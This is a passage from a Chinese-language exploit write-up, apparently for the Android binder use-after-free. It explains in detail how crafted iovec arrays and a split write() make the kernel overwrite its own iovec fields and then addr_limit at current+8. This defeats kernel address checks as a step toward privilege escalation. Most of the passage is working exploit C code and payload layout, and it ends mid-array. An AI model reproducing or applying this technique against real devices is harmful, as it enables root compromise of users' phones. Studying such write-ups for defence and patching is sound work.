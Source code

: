    ```c
   bio.iovs[9].iov_base  = dummy_page + 0x10001; // 没被写，反正跳过了无所谓
   bio.iovs[9].iov_len   = 1;                    // 被写了，反正跳过了无所谓
   bio.iovs[10].iov_base = 0xdeadbeef;           // 被写了，这个 0x28 能一次直接写完，本次写完就跳去下一个了不会再用这个字段，所以这里写啥都不会挂
   bio.iovs[10].iov_len  = 0x8 + 2 * 0x10;       // 被写了，写进了一样的内容，就当作没变过吧
   bio.iovs[11].iov_base = current + 0x8;        // 被写了，这是我们真正需要写入的地址
   bio.iovs[11].iov_len  = 8;                    // 被写了，写进了一样的内容，就当作没变过吧

   // second_write_chunk 是 0x30 大，在写完 0x28 的 bio.iovs[10] 后 iov_iter 变为
   struct iov_iter {
   	size_t iov_offset;       // 0
   	size_t count;            // (1 + 0x8 + 2 * 0x10 + 8)  - (1 + 0x28) = 8
       const struct iovec *iov; // &bio.iovs[11]
   };
   ```

4. 这样就通过自己写自己绕开了内核地址的权限检查，把 current + 0x8 写进了 `bio.iovs[11].iov_base`. 

   前一步写完 0x28 长的 `bio.iovs[11]` 以后 iov 指针跳到 `bio.iovs[11]` 上，继续写 `second_write_chunk` 最后剩下的 8 字节 `0xfffffffffffffffe`，也就是写入 `bio.iovs[11].iov_base` 所指的 `current + 8`. 这样就修改了 addr_limit.

5. 万事俱备，只等后续提权逻辑。

> 其实我觉得可以不写 `bio.iovs[11].iov_len`，反正没人能影响到它，初始是 8 就一直是 8.

思路稍微有一点点绕，主要是“我写我自己”这块放在脑子里算的话有点不太清楚，写下来就好了。

对于我们这种 0x98 的设备来说，如果构造一样的 iovec（除了 spinlock 的那个 iov_len 写成 0x10001，最开始发垃圾数据要发 0x10001 字节），触发漏洞后会变成：

```c
bio.iovs[9].iov_base  = dummy_page;                // 没动
bio.iovs[9].iov_len   = 0x20002;                   // 他（spinlock）改变了 iov_len，不过反正跳过去了
bio.iovs[10].iov_base = &binder_thread->wait.head; // 我 写 我 自 己，一字节不差指向自己
bio.iovs[10].iov_len  = &binder_thread->wait.head; // 这么大的 len
bio.iovs[11].iov_base = (void *)0xbeefdead;        // 从这开始都没变
bio.iovs[11].iov_len  = 8;
```

> 看到没有？这是真的我 写 我 自 己，原地 TP！

这样一来，我们就会面临一个挑战：当垃圾数据写完、触发漏洞以后，下个 iovec 复制开始时，`bio.iovs[10]` 的 iov_len 是错误的非常大的数值，不更正的话不可能写满它，也就不可能进入下个写真正数据的 iovec！

> 确切地说，只要当抵达 `bio.iovs[10]` 能够开始写自己的时候，iov_len 就一定是错误的。因为在“写自己”之前无法更正 iov_len，而要能写自己，则又一定触发了漏洞导致 iov_len 错误。

> 还记得 Round 1 里分析 `copy_page_from_iter_iovec()` 的时候提到过“单次复制要复制多少字节是在复制一开始时就算好的。如果复制中途 iov_len 变了，也不会影响”吗？
>
> 你看，现在长度错了，而一旦开始复制这个 iovec，就算靠这次复制更正了 iov_len，也不会影响最开始那个错误的预期复制长度，不可能在这次复制中跳到下个 iovec 了。是不是很糟糕？

不过，如果 `write()` 一字节就停下来，再开始新一次 `write()`，就会重新进入 `copy_to_iter()`，这样就能重新计算长度了。

> 办法总比困难多。想通以后令人极度舒适。

那么，需要构造的数据如下：

```c
bio.iovs[9].iov_base  = dummy_page;
bio.iovs[9].iov_len   = 0x10001;            // 令人魂牵梦萦的 spinlock
bio.iovs[10].iov_base = (void *)0xdeadbeef; // 被漏洞覆盖
bio.iovs[10].iov_len  = 2 * 0x10 + 1;       // 少了个 0x8 因为不用写 len 了，多了个 1 因为要触发重新计算长度要多 write 一次
bio.iovs[11].iov_base = (void *)0xbeefdead; // 被我自己的 write 动作覆盖
bio.iovs[11].iov_len  = 8;                  // 没人动，一直是 8，实际上是要写入的有效数据的长度
// 注意所有 iov_len 都不能出错，否则会出现跟前面读取时一样的问题：因 iov_iter 的长度有差错，无法完整写入或多写

u64 second_write_chunk[] = {
    dummy_page,                             // 注意“写自己”之前之后两次 write 都要操作这个 iovec，所以“写自己”时写进去的这个地址必须合法，不然第二次 write 会崩
    2 * 0x10 + 1,                           // 覆盖成正常的
```